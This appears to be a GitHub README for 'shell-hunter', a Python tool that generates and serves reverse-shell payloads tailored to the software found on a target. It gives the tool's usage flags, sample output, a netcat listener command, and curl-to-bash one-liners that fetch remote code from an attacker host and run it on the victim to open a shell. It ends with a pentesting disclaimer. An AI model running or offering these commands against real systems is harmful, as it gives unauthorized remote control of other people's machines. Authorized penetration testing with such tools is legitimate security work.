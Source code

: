 # shell-hunter

> This is a Python version of https://github.com/lukechilds/reverse-shell with additional functionality (if you want to call it that).   
> All credit goes to lukechilds
> All credit goes to lukechilds & wrighterase/payl0ad/person/thing

Easy to remember reverse shell that should work on most Unix-like systems.

Detects available software on the target and runs an appropriate payload.

## Usage

### 1. Start the generator

On your attacking machine, start the generator.  It will auto populate interfaces that have IP addresses and the `curl` command associated with it if no arguments are provided.  Not all interfaces in this output will be relevant.

You can specify the http server listening port as well, otherwise it defaults to 8000.

```generator
usage: shell-hunter.py [-h] [-s SERVER] [-l LISTENER] [-i IPADDRESS] [-I INTERFACE]

Automatic payload generation

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        Python http server listener
  -l LISTENER, --listener LISTENER
                        nc listener
  -i IPADDRESS, --ipaddress IPADDRESS
                        IP address
  -I INTERFACE, --interface INTERFACE
                        Interface name
```
This is the default output if no flags are provided.  This is only included as a template and the output will change depending on if you include an IP address.  Changing the IP address and/or port is still possible without restarting, but the `curl` template will not refresh.

```output
Shell generator started: 8000
curl -s http://127.0.0.1:8000/lo|bash
curl -s http://10.0.0.85:8000/eth0|bash
curl -s http://10.0.0.85:8000/tun0|bash
curl -s http://172.17.0.1:8000/docker0|bash
```
### 2. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -lvnp 1337
```
### 2. Execute reverse shell on target

On the target machine,

```shell examples
curl -s http://attacker:8000/tun0|bash
curl -s http://attacker:8000/IP:PORT|bash
curl -s http://attacker:8000/IP|bash
```

Go back to your machine, you should now have a shell prompt.

### 3.  Disclaimer

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.  Obligatory "I'm not responsible for your actions and/or misuse of this code"
